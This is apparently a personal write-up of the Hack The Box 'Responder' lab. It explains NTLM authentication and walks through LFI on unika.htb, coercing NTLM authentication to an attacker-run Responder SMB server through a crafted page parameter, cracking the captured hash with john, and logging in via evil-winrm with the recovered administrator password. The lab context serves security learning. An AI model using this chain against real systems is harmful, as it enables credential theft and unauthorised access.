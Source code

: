 # Responder

## Introduction 

windows is most predominant OS   
most orgs use active directory to set up their windows domain networks   
NTLM and kerberos for authentication services   

## Enumeration 

![](../Images/Pasted%20image%2020240527161621.png)

we can see from nmap that there is an HTTP apache server up and a WinRM server  

windows remote management (WinRM) is a windows remote management protocol that uses simple object access protocol to interact with remote computers and servers    
lets user: 
- remotely communicate and interface with hosts 
- execute commands remotely on systems that are not local to you but are network accessible 
- monitor, manage and configure servers, os and clients machines from a remote location 

if we visit our IP's webpage the browser will return a message about being unable to find the site: 

![](../Images/Pasted%20image%2020240527162015.png)

however, notice that the url is now `unika.htb`   
the browser has redirected you to `unika.htb` but doesn't know how to find it   
the webserver is using name-based vhosting for serving requests 

we can add this as an entry to our `/etc/hosts` file: 

![](../Images/Pasted%20image%2020240527162248.png)

so that now we can visit the website and be able to see it: 

![](../Images/Pasted%20image%2020240527162314.png)

on the site we can see that it uses a url parameter to change the language and site content 

we can use this to input basic LFI payloads to read the windows hosts file: 

![](../Images/Pasted%20image%2020240527165508.png)

## Responder Challenge Capture

if we use a protocol like SMB, windows will try to authenticate to our machine and we can capture the NetNTLMv2  

NTML is a challenge-response authentication protocol used to authenticate a client to a resource on an active directory domain   
type of SSO because it allows the user to provide the underlying authentication factor only once   

NTLM process: 
- client sends username and domain name to server
- server generates random character string which is the challenge
- client encrypts the challenge with the NTLM hash of the user password and sends it back to server
- server retrieves the user password 
- server uses hash value from security account database to encrypt the challenge string, value is then compared to the value received from the client 

## Using Responder 

in php often `allow_url_include` is set to off by default but even if it is then it will not prevent the loading of SMB URLs, which we can use to steal the NTLM hash   

responder will set up a malicious SMB server   
target machine attempts to perform the NTLM auth to that server  
responder sends a challenge back to encrypt with the user's password   
when server responds, responder will use the challenge and encrypted response to generate netNTMLv2  
we can't reverse the resulting netntlmv2 but we can try common passwords to see if we can generate the same one   

we can start up our responder: 

![](../Images/Pasted%20image%2020240527173342.png)

then use the LFI vulnerable parameter to send a request to our responder server: 

```
http://unika.htb/index.php?page=//<our IP>/somefile
```

we will then get a response on our server: 

![](../Images/Pasted%20image%2020240527173456.png)

we can export the hash into a text file: 

![](../Images/Pasted%20image%2020240527173552.png)

using `john -w=<wordlist> hash.txt` we can successfully crack the password hash: 

![](../Images/Pasted%20image%2020240527173759.png)

since linux doesn't have powershell we can use `Evil-winrm` to login: 

```shell
evil-winrm -i <ip> -u administrator -p badminton
```


